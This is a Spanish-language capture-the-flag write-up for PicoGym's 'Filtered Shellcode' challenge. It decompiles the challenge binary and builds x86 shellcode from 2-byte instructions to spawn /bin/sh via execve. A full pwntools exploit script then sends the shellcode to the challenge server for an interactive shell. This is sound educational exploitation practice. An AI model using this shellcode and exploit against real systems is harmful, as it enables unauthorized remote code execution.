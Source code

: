 # Filtered Shellcode - PicoGym

Este ejercicio era más complejo y la resolución es bastante interesante por lo uqe he decidido dedicarle este writeup. Esta es una versión traducida al español y a mis palabras :) de [este articulo](https://github.com/apoirrier/CTFs-writeups/blob/master/PicoCTF/Pwn/filtered-shellcode.md).

## Reconocimiento

Nos dan únicamente un ejecutable *fun*, que si comprobamos con [[checksec]], tiene todas las protecciones desactivadas. Si lo descompilamos con [[ghidra]], veremos que se nos pide un código a ejecutar de un máximo de 1000 carácteres que se pasa a la función *`execute`*:

```c
void execute(int shellcode,int len)

{
  uint uVar1;
  undefined4 uStack48;
  undefined auStack44 [8];
  undefined *local_24;
  undefined *local_20;
  uint local_1c;
  uint double_len;
  int local_14;
  uint i;
  int j;
  int start;
  
  uStack48 = 0x8048502;
  if ((shellcode != 0) && (len != 0)) {
    double_len = len * 2;
    local_1c = double_len;
    start = ((double_len + 0x10) / 0x10) * -0x10;
    local_20 = auStack44 + start;
    local_14 = 0;
    for (i = 0; j = local_14, i < double_len; i = i + 1) {
      uVar1 = (uint)((int)i >> 0x1f) >> 0x1e;
      if ((int)((i + uVar1 & 3) - uVar1) < 2) {
        local_14 = local_14 + 1;
        auStack44[i + start] = *(undefined *)(shellcode + j);
      }
      else {
        auStack44[i + start] = 0x90;
      }
    }
    auStack44[double_len + start] = 0xc3;
    local_24 = auStack44 + start;
    *(undefined4 *)(auStack44 + start + -4) = 0x80485cb;
    (*(code *)(auStack44 + start))();
    return;
  }
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```

Básicamente, el código se copia en *`auStack44`*, pero cada dos bytes introduce otros dos bytes con el valor `0x90` (el código de los *`nop`*). En resumen, corta el código en series de 2 bytes, por lo que tenemos que construir un *shellcode* con instrucciones de 2 bytes.

## Construyendo un shellcode

El objetivo será llamar a `execve("/bin/sh", NULL, NULL)`. Para ello debemos hacer varias cosas:

- Poner la string `/bin/sh` en el stack, para que *esp* apunte a ella.
- Poner los argumentos en los registros correspondientes (en este caso el puntero a `/bin/sh` en *ebx*, y poner *ecx* y *edx* a 0).
- Llamar a la *syscall* correspondiente a `excve`.
- Salir del programa.

Normalmente rellenariamos los registros con `mov ebx, 0`, sin embargo, esto genera *null bytes* al final, lo que puede dar problemas. Para ello utilizaremos `xor ebx, ebx` para ponerlos a cero. Además, para asignar valores, podemos evitar meter *null bytes* rellenando *sub-registros*. Por ejemplo para introducir `11` en *eax* (el código de `excve`), podemos usar `xor eax, eax; mov al, 11`.

De esta forma el código sería algo como:

```asm
; Push //bin/sh on stack (one more slash to avoid null byte)
xor eax, eax
push eax
push `n/sh`
push `//bi`

; Set parameters
mov ebx, esp
xor ecx, ecx
xor edx, edx

; call execve
mov al, 11
int 0x80

; exit
mov al, 1
xor ebx, ebx
int 0x80
```

De esta forma casi todas las instrucciones serían de 2 bytes de longitud, el único problema es introducir `/bin/sh` en el stack. Para ello hay una solución simple, construirlo en registros y pushearlo al stack.

Concretamente, con *eax* inicializado a 0, ponemos en *a1* el primer byte. Después multiplicamos *eax* por 16 y luego otra vez por 16, haciendo que el primer valor esté ahora en el segundo byte de *eax*. Además añadimos *nop*s cuando haya instrucciones de 1 byte para que todas midan 2 bytes.

El código en [[python]] quedaría así:

```python
from pwn import *

shellcode = """
/* Set registers to 0 */
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx

/* Build the stack with //bin/sh */
mov bl, 16 /* This register will hold the value 16 for shifting bytes */
/* First null bytes */
push ecx
nop
/* Then n/sh (ie bytes 110, 47, 115, 104) */
mov al, 104
mul ebx
mul ebx
mov al, 115
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 110
push eax
nop

/* Then //bi (ie bytes 47, 47, 98, 105) */
xor eax, eax
mov al, 105
mul ebx
mul ebx
mov al, 98
mul ebx
mul ebx
mov al, 47
mul ebx
mul ebx
mov al, 47
push eax
nop

/* syscall */
xor eax, eax
mov al, 11
mov ebx, esp
int 0x80

/* exit */
mov al,1
xor ebx, ebx
int 0x80
"""

print(asm(shellcode))

with open("out", "wb") as f:
    f.write(asm(shellcode))

sh = remote("mercury.picoctf.net", 37853)
sh.recvuntil(b"run:")
sh.sendline(asm(shellcode))
sh.interactive()
```
